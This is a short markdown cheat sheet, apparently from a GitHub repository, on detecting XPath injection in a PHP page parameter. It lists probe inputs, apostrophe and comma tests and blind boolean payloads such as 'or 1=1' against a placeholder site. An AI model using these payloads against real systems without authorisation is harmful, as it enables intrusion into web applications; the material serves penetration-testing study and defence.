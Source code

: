 # Simple checks for vulnerable XPATH

### Check if there is any behavioral difference in the responses
```
You could use ' (apostrophe) or , (Comma)
```

Apostrophe used as string terminator

Comma used to break intergers, althorugh any character would work

```
http://<website>/vulnpage.php?countryID=a'
```

### Blind bolean injection
You can check if there is a valid injection by checking with commands if there is no error messages. You can check whenether you get a valid response back or not depending on if it's TRUE or FAL
```
## TRUE 
http://<website>/vulnpage.php?countryID=999999 or 1=1
http://<website>/vulnpage.php?countryID=999999 or "2" or "2"
## FALSE
http://<website>/vulnpage.php?countryID=999999 or 1=2
http://<website>/vulnpage.php?countryID=999999 or "1"="2"
```